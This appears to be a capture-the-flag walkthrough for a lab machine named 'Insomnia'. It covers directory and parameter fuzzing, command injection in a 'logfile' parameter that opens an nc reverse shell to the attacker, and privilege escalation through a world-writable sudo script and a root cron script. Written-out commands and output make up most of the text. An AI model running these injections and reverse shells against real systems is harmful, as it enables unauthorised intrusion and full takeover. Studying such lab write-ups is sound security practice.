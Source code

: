 
# Insomnia - Walkthrough by Alienum
## Directory Scan
```console
dirb http://10.0.2.114:8080/ -X .php,.txt                                                             

+ http://10.0.2.114:8080/administration.php (CODE:200|SIZE:65)                                                   
+ http://10.0.2.114:8080/chat.txt (CODE:200|SIZE:1)                                                              
+ http://10.0.2.114:8080/index.php (CODE:200|SIZE:2899)                                                          
+ http://10.0.2.114:8080/process.php (CODE:200|SIZE:2)  
```

## Find GET parameter
```console
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt --hh 65 'http://10.0.2.114:8080/administration.php?FUZZ=test'                                                               
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                            
=====================================================================

000000485:   200        2 L      12 W       69 Ch       "logfile"    
```
## Reverse shell
```console
http://10.0.2.114:8080/administration.php?logfile=chat.txt;nc -e /bin/sh 10.0.2.15 4444
```
### My machine
```console
nc -lvp 4444
www-data@insomnia:~$ cd /home/julia
www-data@insomnia:~$ cat user.txt
```
## SLOW WAY TO ROOT (www-data -> julia -> root)
```console
www-data@insomnia:~/julia$ sudo -l
(julia) NOPASSWD: /bin/bash /var/www/html/start.sh

www-data@insomnia:~$ cd /var/www/html

www-data@insomnia:/var/www/html$ ls -la | grep start.sh
-rwxrwxrwx 1 root     root       20 Dec 21 04:18 start.sh

www-data@insomnia:/var/www/html$ cat start.sh
cat start.sh
php -S 0.0.0.0:8080
```
## Edit start.sh
```console
www-data@insomnia:/var/www/html$ cat start.sh
cat start.sh
php -S 0.0.0.0:8080

www-data@insomnia:/var/www/html$ echo "/bin/bash" > start.sh

www-data@insomnia:/var/www/html$ sudo -u julia /bin/bash /var/www/html/start.sh

julia@insomnia:/var/www/html$ id
id
uid=1000(julia) gid=1000(julia) groups=1000(julia)
```

## cat /etc/crontab
```console
julia@insomnia:~$ cat /etc/crontab
# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /bin/bash /var/cron/check.sh

julia@insomnia:~$ cd /var/cron
cd /var/cron
julia@insomnia:/var/cron$ ls -la | grep check.sh
ls -la | grep check.sh
-rwxrwxrwx  1 root root  153 Dec 21 04:17 check.sh
```
## Target machine, check.sh is writable, edit check.sh
```console
julia@insomnia:/var/cron$ echo "nc -e /bin/sh 10.0.2.15 5555" >> check.sh
```
## My machine, wait a little bit
```console
┌──(alienum㉿kali)-[~]
└─$ nc -lvp 5555
listening on [any] 5555 ...
connect to [10.0.2.15] from 10.0.2.114 [10.0.2.114] 40348
id
uid=0(root) gid=0(root) groups=0(root)
```

### Fast way to root (www-data -> root)
the www-data also can write the /var/cron/check.sh
so we are able to priv esc from www-data to root with the same way as julia

